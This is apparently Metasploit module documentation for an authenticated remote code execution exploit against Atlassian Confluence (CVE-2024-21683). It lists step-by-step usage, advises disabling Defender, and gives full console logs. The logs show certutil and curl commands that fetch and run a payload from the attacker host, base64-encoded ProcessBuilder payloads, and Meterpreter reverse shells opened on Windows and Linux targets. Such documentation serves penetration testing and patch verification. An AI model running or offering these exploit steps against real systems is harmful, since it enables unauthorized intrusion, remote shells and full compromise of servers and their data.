 ## Vulnerable Application
This module exploits an authenticated administrator-level vulnerability in Atlassian Confluence,
tracked as CVE-2024-21683. The vulnerability exists due to the Rhino script engine parser evaluating
tainted data from uploaded text files. This facilitates arbitrary code execution. This exploit will
authenticate, validate user privileges, extract the underlying host OS information, then trigger
remote code execution. All versions of Confluence prior to 7.17 are affected, as are many versions
up to 8.9.0.

## Testing
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download-archives).
By default, Confluence serves an HTTP service on TCP port 8090. This module was tested against four Confluence installs:
Linux and Windows Confluence hosts running two different versions, 8.9.0 and 7.20.2. The target host operating systems
were Ubuntu 22.04 and Server 2022.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/atlassian_confluence_rce_cve_2024_21683`
3. `set RHOST 192.168.156.131`
4. `check`
5. `set LHOST 192.168.156.129`
6. `set ADMIN_USER admin`
7. `set ADMIN_PASS Password123!`
8. For Windows targets, `set FETCH_COMMAND CERTUTIL` is recommended. For Linux targets, `set FETCH_COMMAND CURL` is recommended.
9. `exploit`

## Options

### ADMIN_USER

The known Confluence administrator username.

### ADMIN_PASS

The known Confluence administrator password.

## Scenarios

### Windows Server 2022 (10.0 Build 20348)
```
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_USER admin
ADMIN_USER => admin
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_PASS Password123!
ADMIN_PASS => Password123!
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set LHOST 192.168.156.129
LHOST => 192.168.156.129
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_COMMAND CERTUTIL 
FETCH_COMMAND => CERTUTIL
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_SRVHOST 192.168.156.129
FETCH_SRVHOST => 192.168.156.129
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set RHOSTS 192.168.156.131
RHOSTS => 192.168.156.131
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > check
[*] 192.168.156.131:8090 - The target appears to be vulnerable. Exploitable version of Confluence: 7.20.2
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > run

[*] Command to run on remote host: certutil -urlcache -f http://192.168.156.129:8080/h2Wbt3lK1eTiVRc3SNDL1w %TEMP%\iYgswSHqZU.exe & start /B %TEMP%\iYgswSHqZU.exe
[*] Fetch handler listening on 192.168.156.129:8080
[*] HTTP server started
[*] Adding resource /h2Wbt3lK1eTiVRc3SNDL1w
[*] Started reverse TCP handler on 192.168.156.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 7.20.2
[*] Successfully authenticated to Confluence
[*] The provided user is an administrator
[*] Secure Administrator Sessions enabled - elevating session
[*] Grabbed elevation CSRF token: a8fc89e32b0baa5f6d72247e614e37bdf11c33c4
[*] Administrator session has been elevated
[*] Target returned the operating system string 'Windows Server 2022 10.0'
[*] Grabbed macro CSRF token: de21269d58ebd338bed3a2bd15a4c54fe321785b
[*] Crafted ProcessBuilder payload string: new java.lang.ProcessBuilder("cmd.exe", "/c", new java.lang.String(java.util.Base64.getDecoder().decode('Y2VydHV0aWwgLXVybGNhY2hlIC1mIGh0dHA6Ly8xOTIuMTY4LjE1Ni4xMjk6ODA4MC9oMldidDNsSzFlVGlWUmMzU05ETDF3ICVURU1QJVxpWWdzd1NIcVpVLmV4ZSAmIHN0YXJ0IC9CICVURU1QJVxpWWdzd1NIcVpVLmV4ZQ=='))).start()
[*] Sending POST request to trigger code execution
[*] Client 192.168.156.131 requested /h2Wbt3lK1eTiVRc3SNDL1w
[*] Sending payload to 192.168.156.131 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.156.131 requested /h2Wbt3lK1eTiVRc3SNDL1w
[*] Sending payload to 192.168.156.131 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.156.131
[*] Meterpreter session 1 opened (192.168.156.129:4444 -> 192.168.156.131:51064) at 2024-07-09 10:19:08 -0500

meterpreter > getuid
Server username: SRV01\Administrator
meterpreter > pwd
C:\Program Files\Atlassian\Confluence\bin
meterpreter > sysinfo
Computer        : SRV01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

### Ubuntu 22.04 (Linux 6.5.0-41-generic)
```
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_USER admin
ADMIN_USER => admin
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_PASS Password123!
ADMIN_PASS => Password123!
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set RHOSTS 192.168.156.133
RHOSTS => 192.168.156.133
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > check
[*] 192.168.156.133:8090 - The target appears to be vulnerable. Exploitable version of Confluence: 8.9.0
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_COMMAND CURL
FETCH_COMMAND => CURL
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > run

[*] Command to run on remote host: curl -so ./UyvwIjHwXcB http://192.168.156.129:8080/zR2OIDxwf8sUzl-Aq0rIXg; chmod +x ./UyvwIjHwXcB; ./UyvwIjHwXcB &
[*] Fetch handler listening on 192.168.156.129:8080
[*] HTTP server started
[*] Adding resource /zR2OIDxwf8sUzl-Aq0rIXg
[*] Started reverse TCP handler on 192.168.156.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 8.9.0
[*] Successfully authenticated to Confluence
[*] The provided user is an administrator
[*] Target returned the operating system string 'Linux 6.5.0-41-generic'
[*] Grabbed macro CSRF token: 671809d94b9274550326b77f1618381188952a53
[*] Crafted ProcessBuilder payload string: new java.lang.ProcessBuilder("/bin/sh", "-c", new java.lang.String(java.util.Base64.getDecoder().decode('Y3VybCAtc28gLi9VeXZ3SWpId1hjQiBodHRwOi8vMTkyLjE2OC4xNTYuMTI5OjgwODAvelIyT0lEeHdmOHNVemwtQXEwcklYZzsgY2htb2QgK3ggLi9VeXZ3SWpId1hjQjsgLi9VeXZ3SWpId1hjQiAm'))).start()
[*] Sending POST request to trigger code execution
[*] Client 192.168.156.133 requested /zR2OIDxwf8sUzl-Aq0rIXg
[*] Sending payload to 192.168.156.133 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.156.133
[*] Meterpreter session 1 opened (192.168.156.129:4444 -> 192.168.156.133:60308) at 2024-07-09 10:40:32 -0500

meterpreter > getuid
Server username: confluence
meterpreter > pwd
/atlassian-confluence-8.9.0
meterpreter > sysinfo
Computer     : 192.168.156.133
OS           : Ubuntu 22.04 (Linux 6.5.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
